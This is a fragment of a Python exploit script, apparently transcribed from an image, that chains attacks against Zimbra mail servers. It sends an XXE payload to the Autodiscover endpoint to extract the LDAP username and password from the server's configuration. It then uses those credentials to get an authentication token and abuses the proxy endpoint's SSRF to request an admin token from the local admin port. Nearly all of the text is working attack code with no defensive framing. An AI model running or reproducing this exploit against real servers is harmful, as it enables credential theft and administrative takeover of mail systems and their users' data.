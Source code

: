 ```python
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
        <EMailAddress>aaaaa</EMailAddress>
        <AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>
    </Request>
</Autodiscover>""".format(dtd=dtd_url)

#XXE stage
headers = {
    "Content-Type":"application/xml"
}
print("[*] Get User Name/Password By XXE ")
r = requests.post(base_url+"/Autodiscover/Autodiscover.xml",data=xxe_data,headers=headers,verify=False,timeout=15)
#print r.text
if 'response schema not available' not in r.text:
    print("have no xxe")
    exit()

#low_token Stage
import re
pattern_name = re.compile(r"&lt;key name=(\"|&quot;)zimbra_user(\"|&quot;)&gt;\n.*?&lt;value&gt;(.*?)&lt;\/value&gt;")
pattern_password = re.compile(r"&lt;key name=(\"|&quot;)zimbra_ldap_password(\"|&quot;)&gt;\n.*?&lt;value&gt;(.*?)&lt;\/value&gt;")
username = pattern_name.findall(r.text)[0][2]
password = pattern_password.findall(r.text)[0][2]
print(username)
print(password)

auth_body="""<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">
   <soap:Header>
       <context xmlns="urn:zimbra">
           <userAgent name="ZimbraWebClient - SAF3 (Win)" version="5.0.15_GA_2851.RHEL5_64"/>
       </context>
   </soap:Header>
   <soap:Body>
     <AuthRequest xmlns="{xmlns}">
        <account by="adminName">{username}</account>
        <password>{password}</password>
     </AuthRequest>
   </soap:Body>
</soap:Envelope>
"""
print("[*] Get Low Privilege Auth Token")
r=requests.post(base_url+"/service/soap",data=auth_body.format(xmlns="urn:zimbraAccount",username=username,password=password),verify=False)

pattern_auth_token=re.compile(r"<authToken>(.*?)</authToken>")

low_priv_token = pattern_auth_token.findall(r.text)[0]

#print(low_priv_token)

# SSRF+Get Admin_Token Stage

headers["Cookie"]="ZM_ADMIN_AUTH_TOKEN="+low_priv_token+";"
headers["Host"]="foo:7071"
print("[*] Get Admin  Auth Token By SSRF")
r = requests.post(base_url+"/service/proxy?target=https://127.0.0.1:7071/service/admin/soap",data=auth_body.format(xmlns="urn:zimbraAdmin",username=username,password=password),headers=headers,verify=False)
```